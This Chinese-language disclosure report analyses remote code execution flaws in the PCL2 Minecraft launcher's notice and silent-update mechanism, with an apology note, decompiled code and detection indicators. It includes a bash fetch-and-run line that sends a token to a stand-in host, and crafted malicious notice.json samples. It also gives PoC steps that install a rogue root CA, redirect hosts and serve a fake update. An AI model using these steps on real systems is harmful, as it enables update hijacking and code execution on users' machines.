


1. [向龙腾猫跃的道歉公告](#my-apology)
2. [PCL PoC 与研究报告](#report)

[最新更新：2.99.0.1 删掉了吗？如删！](analysis/2.99.0.1/README.md)

# 重申为什么是后门？

鉴于所谓其他软件的撑腰“开团”，我想在这里作一些评论。

我一直强调的“何谓后门[^backdoor]”？一种*未经文档记录的*、获取计算机系统访问权限的途径。

在这里的情况，说人话就是：即在用户**不预知**的情况下作出意料外的事情；且软件在用户未明确授权的情况下，从远程获取并执行可由别人控制的代码。

用简单的 bash 来举例（你们最喜欢的 bash2shell 笑话：）。我们写一个 Minecraft 启动器的核心流程。

## 举例

定义一个 Shell 函数作为一个 Minecraft 启动器。

```bash
mc() {
    local USERNAME="Steve" UUID="550e8400-e29b-41d4-a716-446655440000" TOKEN="114514" VERSION="1.21.1"
    java -cp "minecraft.jar:libs/*" net.minecraft.client.main.Main --username "$USERNAME" --uuid "$UUID" --accessToken "$TOKEN" --userType msa --version "$VERSION" --gameDir . --assetsDir assets --assetIndex 17 "$@"
}
```

这是我们预想的，对吧？**用 Java 启动一个游戏。**很简单，我想按下一个启动游戏，它应该只启动游戏。

当然，我们也可以在游戏启动之前再加一个命令。并且作为接口开放，以便所需。

注意：这也是有些人最喜欢偷换概念。说“我们的软件也有 RCE 漏洞”，而展示一个运行前的命令填写框。但这是用户自己设定的，用户能够预知会发生什么。

```bash
mc() {
    local <省略>
    local PRESTART="fcitx5-remote -c" 
    eval "$PRESTART" # 我们知道做了什么 :)
        && java <省略> "$@"
}
```

但是，PCL 并不是这样。它的抽象命令是这样的。

```bash
mc() {
    local TOKEN="114514" <省略>
    local PRESTART="fcitx5-remote -c" 
    source <(curl -fsSL "https://example.com/script?session=${TOKEN}") \
    # ↑ 在这里，我们不得知做了什么。
    # 即便他只是作为公告 Whatever. 但是他也有运行命令的能力。
    # 而这不能预测到。我们不知道每次从互联网上 fetch 下来什么。
    # 并且我们不能审查代码，因为开源版本，这里写的是：“由于包含加解密等安全信息，本文件中的部分代码已被删除”
    # 一些人偷换概念很搞笑
        && eval "$PRESTART" \
        && java <省略> "$@"
}
```

不言而喻。

我不求做什么 whistleblower，但是我们应该都知道，我们想要安心地运行一个程序。

2026-10-24 初版

2026-10-25 修订

# <a id="my-apology" ></a> Notice 公告

在这里先向龙腾猫跃道歉。

我是一个兴趣使然的人，爱好研究以及 UI/UX。前两天，我在哔哩哔哩看到 SEDET 的视频——一个直接读 LLM 稿的。评论里大家都在评判他的立场和滥用 AI。但是，我看到了他想表达的事情。我从小坤鸽找到了一个样本，正如他食品演示的其中一个远程 RCE 性质的缺陷。而后，当我研究这份样本时，我独立地找到了另一个 RCE 性质的缺陷……

……这个缺陷性质危险，我认为是一个 0-Click RCE 的后门，这相比于上一个更加危险，你可以从 PCL 的设置里检查它，它也不是 0-Click 的，你需要点击一次。但是这个不是，这近乎于后门了。

为什么？因为后门[^backdoor]是“一种*未经文档记录的*、获取计算机系统访问权限的途径。”很显然，本文的提及的两个缺陷也许都满足此定义。因为，直到被发现，开发者从来没有提及过这个功能。诚然，后门也许是出于善意设置的，但使用可以朝着恶意去使用的。个人开发者很难去自证“我设计一个功能，到底是*好*还是*坏*呢？”所以最好的办法就是“少做少错，不做不错。”但我这里并不是让开发者什么都不做，而是不做那些令人费解、令人误解的功能。

[^backdoor]: [NIST SP 800-82 Rev. 3 关于后门的定义](https://csrc.nist.gov/glossary/term/backdoor)

我曾经发现过[一个 Android 上的漏洞](https://github.com/MiRinChan#:~:text=Found%20a%20Android%20moderate%20vulnerability%20%2D%20IssueTracker%20539158279%20%28July%2027%2C%202026)，它不是代码有误，而是界面上的设计缺陷。在我或者普遍认为，一个功能只要存在不是按照目标去发展的事情，那它就存在一个缺陷或漏洞。因此，即便一个功能设计初衷是无害的，但它在能力上有害，我认为这个功能就是一种错误的存在，它不应该存在，因此，我写出报告希望大家知道它。但我并不希望大家用这份报告或者 PoC 去做坏事，我只是希望各位开发者不要做这种功能。

对于我，我不想信任任何开发者。但即便你信任龙腾猫跃，你也应该知道，你只是信任他的人品，即“龙腾猫跃自身没有主动想去利用他写出来的功能去做坏事”这件事情。但你会信任他的开发环境吗？人是不可能随时防备的。如 LTT 频道因测评软件误运行间谍软件，导致 Cookie 被盗用。科技产品们问世必是漏洞频发的。我们不能把信任随便给出去，而代码本身会说话，它会告诉你它会做什么。因此，这就是我在几年前就[从 Windows 更换到了 NixOS，并一直使用到今天](https://github.com/MiRinChan/MaybeANixOSConfig)。因为，隐藏的代码大家不一定能读透，公开的代码可能好不到哪里去[^xz]。但是至少有很多人会盯着看。

[^xz]: 比如 `xz-utils`.

我本质希望大家能重视到减少攻击面的必要性。

我在此呼吁你，龙腾猫跃，添加几项 feature：

1. PIN 住证书。[中国国家互联网应急中心在三天前报道了一起中国境外自治域 AS 402425 恶意篡改部分 DNS 解析数据事件](https://mp.weixin.qq.com/s/CAZ90qRk6klmRu6Z9RbvMg)。其中修改了 DNS 解析值，并使用 Let's Encrypt 申领了证书。受影响的主体存在 Akamai CDN。*在本公告修订时，有报道指出 AS4847 出现可能的中间人 ssh 连接的情况。*劫持、修改响应并非不可发生，安全不可忽视。
2. 移除这类代码，转而使用“更新墙”强制更新的手段，告知用户**你接下来有事情要干**。静默更新会导致 user experience 上产生出入。这能保证用户知情“程序要做什么事情”。


我也希望龙腾猫跃能给出更好的解决办法。正如我第一次与 PCL 见面，我希望 PCL 越来越好。


米凛 aka MiRin

2026-10-23 初版

2026-10-25 修订


# <a id="report" ></a> PCL2 `notice.json` 远程代码执行分析报告

2026-10-21 初版

2026-10-25 修订

省流：PCL2 在特定情况下有能力从服务器下载命令并执行。

| [](https://www.bilibili.com/video/BV1r1H36oE3g) |
| :--------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| [哔哩哔哩上的视频演示](https://www.bilibili.com/video/BV1r1H36oE3g)，谢谢“盖的二次方”帮忙上传。                                                                             |

## 目录

- [摘要](#摘要)
- [分析](#分析)
- [如何远程控制](#如何远程控制)
- [1-Click RCE 缺陷](#method1)
- [0-Click RCE 缺陷](#method2)
- [为什么这构成"后门"](#backdoor)
- [PoC](#poc)
- [检测与响应](#response)
- [附录](#footnotes)

## 摘要

蓝奏云样本与官方仓库提交 Hex-Dragon/PCL2 `6b9a50df911c9d68b69b24c979efba477fb14b67` 中根目录的压缩包内的 exe 一致。

```
6b6e1260cb5a1d6a303855f1c60cab3d0bc1aebba7e40a964180188b271e7386  Plain Craft Launcher 2.exe
6b6e1260cb5a1d6a303855f1c60cab3d0bc1aebba7e40a964180188b271e7386  official/Plain Craft Launcher 2.exe
```

无论是否“关闭”公告，程序启动时都会请求一次公告。并执行其中的命令，或执行静默更新。

而命令或静默更新中的软件包，无一有签名。我们不能信任公告一定是作者释放的。或我们不清楚作者释放了什么。

因此，这产生了两种缺陷，我们有两种利用方法。

一种针对 1-Click RCE 缺陷。`notice.json` 提供 `actions.setup` 中设定 `LaunchAdvanceRun`。并在游戏启动后运行任意命令。

一种针对 0-Click RCE 缺陷。`notice.cfg` 写非常高的版本号。客户端重新下载 `ServerConfig.json`，而此文件的 `Update.Release.DownloadUrls` 能指向任意文件。下载后会当成压缩包解压到`PCL\`。最后，用户正常关闭 PCL 时执行 `PCL\Plain Craft Launcher 2.exe`，没有任何对签名的校验。

btw，开源仓库里的 `ModSecret.vb` 被刻意删减，远程内容无从审计。

## 分析

### 基本信息与比较方法

文件名为`Plain Craft Launcher 2.exe`。大小 5,980,160 字节。
版本 PCL2/2.99.0.0.50`；`VersionCode = 413`；`BuildType = Release(50)`
SHA-256 为 `6b6e1260cb5a1d6a303855f1c60cab3d0bc1aebba7e40a964180188b271e7386`。

```bash
git clone --depth 1 https://github.com/Hex-Dragon/PCL2.git # 在当时停留于 2.99.0.0，现在为 2.99.0.1 你可能无法复现。
unzip 最新正式版.zip -d official
sha256sum official/Plain\ Craft\ Launcher\ 2.exe "Plain Craft Launcher 2.exe"
```

### 反编译方法

使用 ilspycmd 9.1，`-p -o decompiled` 便直接生成工程。

整个程序 520 个类型，关键文件如下：

- `PCL/ModSecret.cs`：公告、更新、联网配置、土豆码
- `PCL/PageLaunchRight.cs`：自定义主页加载
- `PCL/CustomEvent.cs`：自定义事件
- `PCL/ModBase.cs`：`GetObjectFromXML`
- `PCL/Settings.cs`：设置项定义与持久化
- `PCL/ModLaunch.cs`：`LaunchAdvanceRun` 的实际执行代码

### 并非开源

```vb
'path: Plain Craft Launcher 2/Modules/ModSecret.vb'
'由于包含加解密等安全信息，本文件中的部分代码已被删除
```

`notice`、`ServerConfig`、`UpdateStart`、`CheckPotatoCode` 实现全无；而发布版二进制有。

也就是说，远程内容这一整块是闭源的。

许可文件表示“PCL 被龙腾猫跃保留所有权利”，且代码使用仅为指南，而并非协议。在中国，不构成合同。没有任何一个字表示过去代码如何授权，未来的指南改变是否追溯其过去。

这和社区声称“开源启动器”的论调不符。

## 如何远程控制

### 调用

`FormMain` 初始化完成后启动 `ModSecret.ServerLoader`：

```csharp
// PCL/ModSecret.cs:382
public static ModLoader.LoaderTask<int, int> ServerLoader =
    new ModLoader.LoaderTask<int, int>("PCL 配置更新", ServerSub, null, ThreadPriority.BelowNormal);
```

`ServerSub`（`ModSecret.cs:1262`）完成 `GET https://pcl2-server-1253424809.file.myqcloud.com/notice.cfg{CDN}`。第一段解析成公告编号 `num3`，第五段是服务器配置版本 `num4`。若本地 `Cache\ServerConfig.json` 的 `Version < num4`，下载 `ServerConfig.json{CDN}`。若 `num3 > HintNotice` 或缓存不存在，下载 `notice.json{CDN}` 并写入 `%TEMP%\PCL\Cache\Notice.json`。设置 `Settings.Set("HintNotice", num3)`。反序列化 `notice.json`，逐条匹配 `requirements`，弹出公告，执行 `buttons[].actions` 或顶层 `actions`。

```csharp
// PCL/ModSecret.cs:1324
text3 = ModNet.NetRequestByClientRetry(
    "https://pcl2-server-1253424809.file.myqcloud.com/notice.cfg{CDN}");
num3 = (int)Math.Round(ModBase.Val(StringExtensions.Split(text3, "|", false)[0]));

// PCL/ModSecret.cs:1382
ModNet.NetDownloadByClient(
    "https://pcl2-server-1253424809.file.myqcloud.com/ServerConfig.json{CDN}", text);

// PCL/ModSecret.cs:1403
text4 = ModNet.NetRequestByClientRetry(
    "https://pcl2-server-1253424809.file.myqcloud.com/notice.json{CDN}",
    null, null, null, null, "*/*", null, RequireJson: true);
FileUtils.Write(ModBase.PathTemp + "Cache\\Notice.json", text4, null);
Settings.Set("HintNotice", num3);
```

### actions 在远程控制中发挥作用

`ModSecret.cs:1479-1534`：

```csharp
foreach (JProperty item3 in obj) {
    JProperty val4 = item3;
    switch (val4.Name) {
    case "copy":
        ModBase.ClipboardSet(val4.Value.ToString());          // 静默改剪贴板
        break;
    case "website":
        ModBase.OpenWebsite(val4.Value.ToString());           // 打开任意 http(s)
        break;
    case "stop":
        ModMain.FrmMain.EndProgram(SendWarning: false);       // 静默退出
        break;
    case "setup":
        JObject val5 = (JObject)val4.Value;
        foreach (KeyValuePair<string, JToken> item4 in val5)
            Settings.Set(item4.Key, item4.Value.ToString());  // 设置任意的 key👀 What is that?
        break;
    case "update":
    case "slientupdate":
        bool flag3 = Operators.CompareString(val4.Name, "slientupdate", false) == 0;
        if (!HasUpdatePermission) { ... }
        UpdateStart(flag3);                                   // 静默自我更新
        break;
    default:
        throw new Exception("未知的行动支：" + val4.Name + ", " + val4.Value.ToString());
    }
}
```

其中 `setup` 没有任何 key 白名单/黑名单。

> 笔者注，在修补报告时。在 PCL 最新版本已经修复。

```csharp
foreach (KeyValuePair<string, JToken> item4 in val5)
    Settings.Set(item4.Key, item4.Value.ToString());
```

### HasUpdatePermission 恒为 true，则总是允许静默更新

```csharp
// PCL/ModSecret.cs:402
private static bool HasUpdatePermission => true;
```

### アリ！？ナシ！？是签名不是签名

`SecretCdnSign`（`ModSecret.cs:428-445`）算法

```text
path = URL 中 "://" 之后的第一个 "/" 起
ts   = UTC Unix 秒
rand = 8 位小写十六进制随机数
key  = "PCL2Server"                     // 硬编码在客户端
hash = MD5(path + "-" + ts + "-" + rand + "-0-" + key)
URL  = path + "?sign=" + ts + "-" + rand + "-0-" + hash
```

此签名仅是腾讯 COS 的签名功能，此功能本应该在远程端使用，而 PCL 置于本地。密钥硬编码在客户端，任何拿到 exe 的人都能生成合法签名。这只能保证路径没有问题，并不是密码学意义上的签名。

### 公告的真实格式

> 2026-10-21 时抓取

`notice.json`

```json
[
  {
    "id": 230,
    "requirements": { "versioncode <=": 413, "versionbranch <=": 0 },
    "importantLevel": 1,
    "isUpdate": true,
    "title": "悲报",
    "description": "为遵守相关法律法规，PCL 不再提供 MC 下载功能，非常抱歉 qwq……",
    "buttons": [
      {
        "text": "更新 PCL",
        "actions": { "update": { "requireUserInput": true } }
      }
    ]
  }
]
```

`ServerConfig.json` 中 `Update.Release.DownloadUrls` 指向下载链接。

### 流程



## <a id="method1" ></a> 1-Click RCE 缺陷——使用 LaunchAdvanceRun

> 截至报告修补，此缺陷已经修复。

### 构造恶意样本

```json
[
  {
    "id": 999,
    "title": "",
    "description": "",
    "requirements": {},
    "actions": {
      "setup": {
        "LaunchAdvanceRun": "calc.exe", // 游戏启动前执行的全局命令
        "LaunchAdvanceRunWait": "False" // 控制是否等待命令结束
      }
    }
  }
]
```

这份 JSON 会被 `setup` 写入设置。

有个坑爹的地方。`importantLevel` 默认为 2，而 PCL 会拿它和 `SystemSystemActivity`，即用户之前点"不再提示"的等级进行比较。如果配置比 2 大，这条公告会被直接跳过。我们用 `importantLevel: 999` 绕开这一点。

### LaunchAdvanceRun 运行时机

```csharp
// PCL/ModLaunch.cs:2865
private static void McLaunchCustom(ModLoader.LoaderTask<int, int> Loader)
{
    string text = Settings.Get<string>("LaunchAdvanceRun");
    ...
    if (Operators.CompareString(text, "", false) != 0)
    {
        McLaunchLog("正在执行全局自定义命令：" + text, (LogLevel)1);
        Process process = ModBase.StartProcess(new ProcessStartInfo // 这里开始
        {
            FileName = "cmd.exe",
            Arguments = $"/c \"{text}\"",
            WorkingDirectory = ModMinecraft.McFolderSelected,
            UseShellExecute = false,
            CreateNoWindow = true
        });
        if (Settings.Get<bool>("LaunchAdvanceRunWait"))
            while (!process.HasExited && !Loader.IsCanceled) Thread.Sleep(10);
    }
}
```

这样的参数还有 `LaunchAdvanceJvm`，追加 JVM 参数，能够加载任意 DLL/JAR。

## <a id="method2" ></a> 0-Click RCE 缺陷——使用 slientupdate

这个比上一个更强，他是一个 0 click

### 提高版本来强行刷新 ServerConfig

`notice.cfg` 的格式是 `id|?|?|?|configVersion`。

`ServerSub` 拿 `configVersion` 和本地的 `Cache\ServerConfig.json` 的 `Version` 比较。

```csharp
double num4 = ModBase.Val(StringExtensions.Split(text3, "|", false)[4]);
if ((double)num < num4) {
    ModNet.NetDownloadByClient(
        "https://pcl2-server-1253424809.file.myqcloud.com/ServerConfig.json{CDN}", text);
    ServerConfig = (JObject)FileUtils.ReadAsJson(text, null, null);
}
```

这里可以把 `configVersion` 设成 999，所有客户端就会重新下载的 `ServerConfig.json`。

### 修改 slientupdate 选择其他的下载 URL

`notice.json`：

```json
[
  {
    "id": 114514,
    "requirements": {},
    "importantLevel": 999,
    "actions": { "slientupdate": {} }
  }
]
```

```csharp
// PCL/ModSecret.cs:1004-1026, `UpdateStart(Silent: true)` 的获取更新信息任务
JObject val = (JObject)ServerConfig["Update"][ModBase.BuildTypes.Release.ToString()];
if (val.ContainsKey("PatchUrls") && StartsWithF(UpdateMark, "Empty", false))
    Urls = val["PatchUrls"].ToObject<List<string>>();
else if (val.ContainsKey("DownloadUrls"))
    Urls = val["DownloadUrls"].ToObject<List<string>>();

// 扩展名直接取自 URL
Extension = "." + PathUtils.GetExtension(BeforeLast(Urls.First(), "{CDN}", false));
LocalPath = string.Format("{0}{1}.{2}{3}",
    ModMain.RequestTaskTempFolder(), "2.99.0.0", 50, Extension);
```

`UpdateMark` 的默认值以 `"Empty"` 开头。

所以只要 `ServerConfig` 不提供 `PatchUrls`，就会从 `DownloadUrls` 下载。

### 解压，并在退出时执行

```csharp
// PCL/ModSecret.cs:190-211
internal void _Lambda_0024__2()
{
    string text = Paths.Base + "PCL\\Plain Craft Launcher 2.exe";
    if (FileUtils.Exists(text)) FileUtils.Delete(text, false);

    if (Extension == ".zip")
        FileUtils.ExtractToDirectory(LocalPath, Paths.Base + "PCL\\", ...);
    else
        MsDelta.Apply(ModBase.PathExe, LocalPath, Paths.Base + "PCL\\Plain Craft Launcher 2.exe");

    if (IsSilentUpdate) {
        IsUpdateWaitingRestart = true;
        return;
    }
    ...
}
```

```csharp
// PCL/ModSecret.cs:1084-1097
public static void UpdateRestart(bool TriggerRestartAndByEnd)
{
    IsUpdateWaitingRestart = false;
    string fileName = Paths.Base + "PCL\\Plain Craft Launcher 2.exe";
    string text = $"--update {Process.GetCurrentProcess().Id} " +
                  $"\"{AppDomain.CurrentDomain.SetupInformation.ApplicationName}\" " +
                  $"\"{AppDomain.CurrentDomain.SetupInformation.ApplicationName}\" {TriggerRestartAndByEnd}";
    ModBase.StartProcess(new ProcessStartInfo(fileName)
    {
        WindowStyle = ProcessWindowStyle.Hidden,
        CreateNoWindow = true,
        Arguments = text
    });
    if (TriggerRestartAndByEnd) ModMain.FrmMain.EndProgram(SendWarning: false);
}
```

`EndProgram` 在退出前检查 `IsUpdateWaitingRestart`。

并调用 `UpdateRestart(TriggerRestartAndByEnd: false)`（`FormMain.cs:1963`）。

### <a id="another-flow" ></a> 流程



### 疑问：这里是自动更新！别的启动器都有

相比较同行，一个正常的自动更新至少应该有程序签名或 checksum。并且更新来源是固定的。以及可以被检查的任何行为。

而不是偷偷给你运行一个包，美名其曰“静默更新，其他整合包、启动器都有。”上面规划是好的，就是执行坏了？

## 为什么这是"后门"，不是自动更新？<a id="backdoor" ></a>

为什么？因为后门[^backdoor]是“一种*未经文档记录的*、获取计算机系统访问权限的途径。”很显然，本文的提及的两个缺陷也许都满足此定义。因为，直到被发现，开发者从来没有提及过这个功能。诚然，后门也许是出于善意设置的，但使用可以朝着恶意去使用的。个人开发者很难去自证“我设计一个功能，到底是*好*还是*坏*呢？”所以最好的办法就是“少做少错，不做不错。”但我这里并不是让开发者什么都不做，而是不做那些令人费解、令人误解的功能。

我们在这里研究的是“能不能”，不是作者“会不会？”

历史是一本教科书，他告诉我们人们不能从历史吸取教训。

Android 某 Root 程序 S……e 在服务器塞反注入代码，有两种行为，其一随机卡死手机，其二抹掉数据。目的是好的——反盗版说是，只是执行坏了——反盗版机制会干掉正版用户。

知名第三方聊天软件 N……m，开源软件不放任何恶意代码，发布版本写入自动上传代码。作者声称：

> If your question is, “Is it true?”, the answer is yes, numbers were sent to the bot. But not a single number has been stored anywhere or shared with anyone ever.
>
> Some people are asking for an “explanation”, but what kind of explanation do you want? It sends your phone number, it is what it is.

你信吗？

那 PCL 作者，你信吗？

### 侏罗纪老头进蓝奏云放的

截至笔者完成本报告，没有发现第三方二次打包或额外植入的恶意代码。

## <a id="poc" ></a> PoC

### 设计

我们模拟官方服务器。

1. 生成 CA。并为 `pcl2-server-1253424809.file.myqcloud.com` 签发叶子证书；
2. 把 CA 装进 Windows 根证书存储；
3. 修改 hosts。将公告域名指定到 `127.0.0.1`；
4. 启动 HTTPS 服务器，监听 443 端口。
5. 返回伪造的 `notice.cfg` / `notice.json` / `ServerConfig.json` / `update.zip`；
6. 启动 PCL。
    按模式触发：
    -  `launch`，启动后点"启动游戏"；
     - `update`，静默更新 staging 后关闭 PCL；
7. 写 payload (`%TEMP%\pcl-poc-marker.txt`) 并启动 `calc.exe`。

### PoC 文件清单

```text
repo/
├── server.ps1                # 纯 PowerShell HTTPS 伪造服务器（默认，无需 Python）
├── server.py                 # Python 版服务器（-Server python 时使用）
├── Invoke-PCLPoC.ps1         # Windows 管理员一键脚本（自签证书/hosts/启动/清理）
├── certs/
│   ├── ca.crt / ca.key       # 实验室 CA
│   └── server.crt / server.key  # 为公告域名签发的 leaf
├── samples/                  # 需求方原始 notice.json 与计算器变体
├── www/                      # update.zip / 静态文件（运行时生成）
└── README.llm.md                 # 运行说明
```

### 先决条件

- Windows 虚拟机；
- PCL2 2.99.0.0（样本 exe）；
- .NET Framework 4.8（Windows 自带）；
- 管理员权限（改 hosts、装根证书、监听 443）；Windows PowerShell 5.1+；
- `launch` 模式需要一个可启动的 Minecraft 实例；
- 首次运行 PCL 需先手动接受 EULA 并初始化。

### 运行

```powershell
# 以管理员身份打开 PowerShell
cd <PCL目录>\poc
powershell -ExecutionPolicy Bypass -File .\Invoke-PCLPoC.ps1 -Mode both -Manual

# 或者手动一点

# 1) 安装 CA
Import-Certificate .\certs\ca.crt -CertStoreLocation Cert:\LocalMachine\Root
# 2) 改 hosts
Add-Content $env:SystemRoot\System32\drivers\etc\hosts "`r`n127.0.0.1 pcl2-server-1253424809.file.myqcloud.com"
# 3) 起服务
powershell.exe -File .\server.ps1 -Mode update -Port 443 -PayloadExe C:\Users\Public\pclpoc.exe -CertThumbprint <叶子证书指纹>
# 或者用 Python 版：
# python .\server.py --mode update --port 443 --payload-exe C:\Users\Public\pclpoc.exe
# 4) 启动 PCL，等待更新 staging，关闭 PCL

```

### 预期结果

- `update` 模式：

1. `server.out.log` 出现：

```
[req ] /notice.cfg
[req ] /ServerConfig.json
[req ] /notice.json
[req ] /update.zip
```

2. `<PCL目录>\PCL\Plain Craft Launcher 2.exe` payload 产生；
3. 关闭 PCL 后，`calc.exe` 启动；
4. `%TEMP%\pcl-poc-marker.txt` 内容类似：
```
2026-10-21T23:45:12.3456789+08:00 pid=1234 args=--update 5678 "Plain Craft Launcher 2.exe" ...
```

- `launch` 模式：

1. PCL 日志出现：

```
执行 PCL 服务器公告动作...（setup, ...）
...
正在执行全局自定义命令：C:\Users\Public\pclpoc.exe
```

2. 点击"启动游戏"后 `calc.exe` 启动，marker 生成。

## <a id="response" ></a> 检测与响应

### 主机侧

- `hosts` 中出现 `pcl2-server-1253424809.file.myqcloud.com` 指向非官方 IP；
- 根证书存储中出现非官方 CA（尤其 CN 含 `PoC` 或随机字符串的）；
- PCL 目录出现 `PCL\Plain Craft Launcher 2.exe` staging；
- `%TEMP%\PCL\Cache\Notice.json`、`notice.cfg`、`ServerConfig.json` 内容异常；
- 注册表 `HKCU\Software\PCL\HintNotice` 突然变大；
- `PCL\Setup.ini` 中 `LaunchAdvanceRun`、`UiCustomType`、`UiCustomNet`、`HintCustomCommand` 被改成陌生值；
- PCL 日志关键词：`下载 PCL 服务器公告`、`执行 PCL 服务器公告动作`、`启动器静默更新`、`更新程序启动`、`执行全局自定义命令`、`执行自定义事件：执行命令`。

### 网络侧

- 对 `pcl2-server-1253424809.file.myqcloud.com` 的 `notice.cfg` / `notice.json` / `ServerConfig.json` 请求；
- 随后对任意 `DownloadUrls` 的 `.zip` 下载；
- 证书异常（非腾讯云/非官方 CA）；
- DNS 解析异常。

### 修复建议

请更换更有信任的更新机制。

## <a id="footnotes" ></a> 附录

### A. 关键代码位置

| 功能                          | 文件:行                                     |
| ----------------------------- | ------------------------------------------- |
| `ServerLoader` 定义           | `PCL/ModSecret.cs:382`                      |
| `ServerSub` 公告主流程        | `PCL/ModSecret.cs:1262`                     |
| `notice.cfg` 拉取             | `PCL/ModSecret.cs:1324`                     |
| `ServerConfig.json` 拉取      | `PCL/ModSecret.cs:1382`                     |
| `notice.json` 拉取/缓存       | `PCL/ModSecret.cs:1403-1406`                |
| `actions` 分发                | `PCL/ModSecret.cs:1479-1534`                |
| `setup` 任意设置              | `PCL/ModSecret.cs:1495-1502`                |
| `HasUpdatePermission => true` | `PCL/ModSecret.cs:402`                      |
| `UpdateStart`                 | `PCL/ModSecret.cs:957`                      |
| 更新 URL 选择                 | `PCL/ModSecret.cs:1004-1026`                |
| zip 解压/安装                 | `PCL/ModSecret.cs:190-211`                  |
| `UpdateRestart`               | `PCL/ModSecret.cs:1084-1097`                |
| `LaunchAdvanceRun` 执行       | `PCL/ModLaunch.cs:2865-2925`                |
| 自定义主页加载                | `PCL/PageLaunchRight.cs:385-419`            |
| XAML 黑名单                   | `PCL/ModBase.cs:1418-1447`                  |
| 自定义事件执行命令            | `PCL/CustomEvent.cs:129-150`                |
| 事件确认绕过                  | `PCL/CustomEvent.cs:455-470`                |
| 设置默认值                    | `PCL/Settings.cs:141-175, 246-249, 315-320` |
| 遥测                          | `PCL/ModMain.cs:1807-1837`                  |


### B. 官方来源

- 仓库：<https://github.com/Hex-Dragon/PCL2>
- commit 提交：`6b9a50df911c9d68b69b24c979efba477fb14b67`（`2.99.0.0 正式版`）
- 相关安全公告：
  - <https://github.com/Meloong-Git/PCL/security/advisories/GHSA-wfpw-hfcp-9m73>（自定义主页 WebBrowser，CVE-2025-31488）
  - <https://github.com/Meloong-Git/PCL/security/advisories/GHSA-x9wr-mgmx-3hqp>（xmlns 过滤绕过）
  - <https://github.com/Meloong-Git/PCL/security/advisories/GHSA-gp33-rfmf-5f38>（ZipSlip）
  - <https://github.com/Meloong-Git/PCL/security/advisories/GHSA-22mj-jjhv-rxm4>（日志泄露 AccessToken）
